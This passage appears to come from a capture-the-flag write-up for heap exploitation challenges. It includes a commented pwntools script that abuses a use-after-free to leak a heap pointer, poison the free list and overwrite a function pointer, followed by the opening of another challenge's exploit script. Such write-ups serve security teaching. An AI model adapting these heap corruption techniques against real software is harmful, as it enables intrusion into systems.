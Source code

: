 ```
	p.sendline(str(num))

# use after free vulnerability
# win addr : 0x08048b7c

create(1)
create(2)
create(3)

free(2)
free(3)

# the first 4 bytes of chunk 3 (now free) will be a fwd pointer to chunk 2
# since we have UAF we can read this pointer and get a heap address
heap_addr = u32(view(3)[:4])

# chunk sizes are 0x20. the printed pointer is of chunk 2 so to get chunk 1 address, -0x20
# then add 0x8 to reach the address where 0x6447 should be in the (presumably) struct
target = heap_addr - 0x20 + 0x8

# change the fwd pointer to the address of chunk 1's 0x6447 data
rename(3, p32(target))

# create a new element which should reuse the free chunk 3
# next free chunk should be our target (since we changed the fwd pointer)
create(3)

# creation allows for writing 0x9 bytes (with null) instead of 0x8 like in rename
# we write the 0x6447 to pass the fake "canary" check, and then the win function to overwrite the function pointer
create_custom(4, p32(0x6447) + p32(0x08048b7c))

# then execute our overwritten function pointer
hakk(1)

p.interactive()
```

ezpz1
===========================
Flag: FLAG{}

General overview of problems faced
-------------------------------------
For me this was the easiest challenge, and I quickly noticed the flaw with the order that chunks were freed.

Script/Command used (Writeup)
------------------
```
from pwn import *

PROG_NAME = "./ezpz1"
REMOTE_IP = "plsdonthaq.me"
REMOTE_PORT = 7001

if args.REMOTE:
    p = remote(REMOTE_IP, REMOTE_PORT)
    elf = ELF(PROG_NAME)
else:
    p = process(PROG_NAME)
    elf = p.elf

def create(num):
```